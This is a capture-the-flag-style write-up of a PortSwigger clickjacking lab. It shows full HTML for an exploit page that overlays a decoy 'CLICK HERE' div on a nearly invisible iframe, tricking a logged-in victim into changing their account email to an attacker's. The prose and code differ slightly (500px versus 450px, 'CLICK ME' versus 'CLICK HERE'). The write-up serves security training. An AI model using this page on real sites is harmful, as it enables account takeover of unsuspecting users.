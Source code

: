 ![clickjacking-with-form-input-data-prefilled-from-a-url-parameter-cover.png](clickjacking-with-form-input-data-prefilled-from-a-url-parameter-cover.png)

In this apprentice level lab, we will exploit the change email flow from a website vulnerable to clickjacking due to form filling via url parameters.

---

Upon logging in with the given credentials, we notice that after going to the acount page, all that is needed to change a user’s email is click on the `Update Email` button and that the `email` input can be prefilled by adding it via url parameters. Let’s use the writing material’s clickjacking template to craft our exploit:

```jsx
<head>
   <style>
      iframe {
       position:relative;
       width:700px;
       height:600px;
       opacity:0.1;
       z-index:2;
      }
      div {
       position:absolute;
       z-index:1;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="${LAB_ACCOUNT_ROUTE_URL}?email=attacker@email.com">
   </iframe>
</body>
```

This is how the template looks on our exploit server:

![clickjacking-with-form-input-data-prefilled-from-a-url-parameter-1.png](clickjacking-with-form-input-data-prefilled-from-a-url-parameter-1.png)

We need to modify the location of the `CLICK ME` div tag so that it is on top of the `Update Email` button on the vulnerable website. Note that we are setting the iframe’s opacity to `0.1` to be able to check the exploit appearance and then modifying the div’s top and left CSS properties so that when a logged in user clicks on the `CLICK ME` div on our website, they are actually clicking on the vulnerable website’s button to update their email to whatever we previously set in the URL parameters. After setting the top property to 500px and the left property to 50px, it looks like the buttons are aligned to perform a successful attack. At this point, our exploit looks like this:

```jsx
<head>
   <style>
      iframe {
       position:relative;
       width:700px;
       height:600px;
       opacity:0.1;
       z-index:2;
      }
      div {
       position:absolute;
       z-index:1;
       top:450px;
       left:50px;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="${LAB_ACCOUNT_ROUTE_URL}?email=attacker@email.com">
   </iframe>
</body>
```

![clickjacking-with-form-input-data-prefilled-from-a-url-parameter-2.png](clickjacking-with-form-input-data-prefilled-from-a-url-parameter-2.png)

All we need to do is set the iframe’s opacity to 0.00001 or something similar so that it is almost invisible and send the exploit to our victim.

Check out this post in Art Of Code: https://artofcode.tech/portswigger-lab-write-up-clickjacking-with-form-input-data-prefilled-from-a-url-parameter/
